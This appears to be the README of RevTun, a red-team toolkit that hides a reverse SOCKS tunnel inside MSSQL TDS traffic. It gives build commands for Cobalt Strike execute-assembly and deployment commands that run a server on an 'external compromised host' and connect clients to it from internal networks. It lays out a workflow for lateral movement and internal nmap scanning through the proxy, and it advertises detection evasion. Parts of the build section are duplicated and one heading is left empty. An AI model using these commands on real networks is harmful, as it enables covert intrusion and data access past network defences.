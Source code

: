# RevTun - MSSQL Protocol Toolkit

RevTun is a network pivoting toolkit that operates through the Microsoft SQL Server TDS protocol. It provides reverse tunneling, traffic relaying, and protocol simulation capabilities for penetration testing and red team operations.

## Modes

### 1. Reverse Tunnel (Primary)
- **Server**: Listens on port 1433, responds to TDS handshakes, auto-activates SOCKS proxy
- **Client**: Connects to server using authentic MSSQL authentication  
- **Result**: Covert SOCKS proxy through MSSQL traffic disguise

### 2. Relay (Traffic Forwarding)  
- Transparently forwards MSSQL traffic between clients and servers
- Real-time packet logging and TDS protocol analysis
- TLS/SSL passthrough support
- Ideal for monitoring and debugging database connections

### 3. Standalone (Protocol Testing)
- Full TDS protocol implementation for testing and development
- Supports authentication, encryption, and SQL batch execution
- Generates realistic database responses

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```
```bash
# Build for execute-assembly compatibility
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

### Quick Build (Multi-Platform)
Use the provided PowerShell script for automated builds:

```powershell
# Builds all targets: .NET Framework 4.8, Linux x64, Windows x64
.\build-multi.ps1
```

### Manual Builds

#### Cross-Platform Builds (.NET 8.0)
```bash
# Windows x64 (self-contained single file)
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64 (self-contained single file)  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true
```

#### Cobalt Strike Build (.NET Framework 4.8)
## Usage

### Server (Reverse Tunnel)
```bash
./revtun server --port 1433 --proxy-port 1080 --verbose
```

### Client (Connect to Server)  
```bash
./revtun client --host server.com --port 1433 --encrypt --verbose
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --port 1433 --server-port 1433 --debug
```

### Using SOCKS Proxy
```bash
curl --proxy socks5://localhost:1080 http://internal-resource.local
proxychains nmap -sT 192.168.1.0/24
```

## Cobalt Strike Integration

### Deployment
```bash
# Server on external host
execute-assembly revtun.exe server --port 1433 --proxy-port 1080 --require-encryption

# Client from internal network  
execute-assembly revtun.exe client --host [external-ip] --port 1433 --encrypt --auto-exit

# Relay on pivot host
execute-assembly revtun.exe relay --host [internal-sql-server] --port 1433 --verbose
```

### Workflow
1. Deploy server on external compromised host
2. Connect clients from internal networks  
3. Use SOCKS proxy for lateral movement
4. Traffic appears as legitimate MSSQL communications

## Command Options

### Server
```
--port, -p <port>          MSSQL server port (default: 1433)
--proxy-port <port>        SOCKS proxy port (default: 1080)  
--bind <address>           Bind address (default: 0.0.0.0)
--verbose, -v              Enable verbose logging
--require-encryption       Require TLS encryption
```

### Client  
```
--host, -h <hostname>      Server hostname (default: localhost)
--port, -p <port>          Server port (default: 1433)
--username, -u <user>      SQL username (default: sa)
--password <pass>          SQL password (default: Password123)
--auto-exit                Exit after connection test
--verbose, -v              Enable verbose logging
--debug                    Enable debug output
--encrypt                  Request TLS encryption
```

### Relay
```
--port, -p <port>          Relay listener port (default: 1433)
--bind <address>           Bind address (default: 0.0.0.0)
--host, -h <hostname>      Target server hostname (default: localhost)
--server-port <port>       Target server port (default: 1433)
--verbose, -v              Enable verbose logging
--debug                    Enable debug output with TDS packet analysis
```

## Features

- **TDS Protocol**: Complete MSSQL TDS implementation with encryption support
- **Network Evasion**: Traffic appears as legitimate database communications  
- **Cross-Platform**: Windows, Linux, macOS support
- **Cobalt Strike**: Optimized for execute-assembly deployment
- **High Performance**: Low latency, high throughput tunneling
- **Packet Analysis**: Built-in TDS protocol debugging and logging

## Legal Disclaimer

For authorized security testing only. Users are responsible for proper authorization. Use only in environments where you have explicit permission.

---

**RevTun** - MSSQL Protocol Toolkit for Security Testing
